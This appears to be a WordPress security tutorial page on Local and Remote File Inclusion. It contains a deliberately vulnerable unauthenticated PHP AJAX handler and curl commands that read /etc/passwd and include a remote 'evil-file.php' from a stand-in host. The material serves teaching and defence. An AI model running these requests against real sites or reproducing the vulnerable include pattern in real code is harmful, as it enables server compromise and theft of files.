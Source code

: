 ```yaml
---
title: Local File Inclusion (LFI)
head:
    - tag: title
      content: Learn about Local File Inclusion (LFI)
contributors:
    - rafiem
    - dhakalananda
---
```




## Introduction

This article covers cases of possible LFI on WordPress. This includes improper file inclusion inside of the plugin/theme which can be used to gain RCE on the server.

<LinkCard
  title="Learn how to secure your code against Local File Inclusion"
  href="/academy/wordpress/securing-code/local-file-inclusion/"
/>

## Useful Functions

Several functions could be useful to identify a possible LFI vulnerability:

- [`include`](https://www.php.net/manual/en/function.include.php)
- [`include_once`](https://www.php.net/manual/en/function.include-once.php)
- [`require`](https://www.php.net/manual/en/function.require.php)
- [`require_once`](https://www.php.net/manual/en/function.require-once.php)

## Example Cases

Below is an example of vulnerable code:

```php
add_action("wp_ajax_nopriv_render_lesson", "render_lesson_template");

function render_lesson_template(){
    $template_path      = urldecode( $_GET['template_path'] ?? '' );

    // For custom template return all list of lessons
    include $template_path;
    die();
}
```

To exploit this, any unauthenticated user needs to perform a POST request to the `/wp-admin/admin-ajax.php` endpoint specifying the needed parameter to trigger the `include` function.

```bash
curl <WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=render_lesson&template_path=/etc/passwd
```

Below are some of the findings related to Local File Inclusion:

- [Critical Vulnerabilities Patched in REHub Theme and Plugin](https://patchstack.com/articles/critical-vulnerabilities-patched-in-rehub-theme-and-plugin/)
- [Security Vulnerability In OceanWP Theme \<= 3.4.1](https://patchstack.com/articles/subscriber-path-traversal-leading-to-local-file-inclusion-in-oceanwp-theme/)
- [Vulnerability In Rank Math SEO Plugin](https://patchstack.com/articles/authenticated-path-traversal-leading-to-local-file-inclusion-in-rank-math-seo-plugin/)
- [Multiple Critical Vulnerabilities Fixed In LearnPress Plugin Version \<= 4.1.7.3.2](https://patchstack.com/articles/multiple-critical-vulnerabilities-fixed-in-learnpress-plugin-version/)

## Remote File Inclusion

If both the PHP options `allow_url_fopen` and `allow_url_include` are turned on in the PHP configuration, a remote file inclusion is possible which allows an even easier access to executing arbitrary PHP code on the server. It allows a malicious user to add the remote PHP file to be executed leading to code execution unlike LFI where a local file needs to be available.

## Example Cases

Similar to the above case, below is an example vulnerable scenario if the mentioned options are enabled in the PHP configuration:

```php
add_action("wp_ajax_nopriv_render_lesson", "render_lesson_template");

function render_lesson_template(){
    $template_path      = urldecode( $_GET['template_path'] ?? '' );

    // For custom template return all list of lessons
    include $template_path;
    die();
}
```

To exploit this, any unauthenticated user needs to perform a POST request to the `/wp-admin/admin-ajax.php` endpoint specifying the external link to the PHP code to trigger the `include` function.

```bash
curl <WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=render_lesson&template_path=https://example.com/evil-file.php
```